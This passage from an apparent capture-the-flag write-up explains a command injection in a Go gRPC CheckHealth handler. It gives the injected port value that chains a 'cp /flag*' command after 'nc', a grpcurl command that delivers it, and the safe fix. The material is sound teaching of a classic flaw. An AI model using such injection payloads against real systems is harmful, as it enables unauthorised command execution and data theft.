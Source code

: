 The final step is possible because CheckHealth calls:

```go
cmd := exec.Command("sh", "-c", "nc -zv " + ip + " " + port)
```

Due to an unsanitized command call, by setting port to `1337; cp /flag* /app/eldoria_api/public/flag.txt`, the full shell command becomes:

```sh
sh -c "nc -zv 127.0.0.1 1337; cp /flag* /app/eldoria_api/public/flag.txt"
```

Breaking it down:

 - `nc -zv 127.0.0.1 1337` attempts a port check (harmless).
 - The `;` in the shell command then executes `cp /flag* ...` to place the flag in a publicly accessible file.

Once that’s done, we can retrieve the flag at `http://127.0.0.1:1337/flag.txt`.

Why is this injection possible? Because the Go code blindly concatenates unvalidated user input (`port`) into a shell command. This is exactly the classic `command injection pitfall`. Properly using `exec.Command("nc", "-zv", ip, port)` (passing arguments in a safe, structured way) wpuld have avoided the injection.

In order to cause the injection we need to internally reach the GRPC service through the cURL SSRF. To do that we will expose the local GRPC service and send packets which we will capture and convert to one single packet payload that can be sent through cURL on the remote target,

```
grpcurl -plaintext -proto live_data.proto \
   -d '{"ip": "127.0.0.1", "port": "1337; cp /flag* /app/eldoria_api/public/flag.txt"}' \
   localhost:50051 live.LiveDataService/CheckHealth
```

![img](./assets/capture.png)
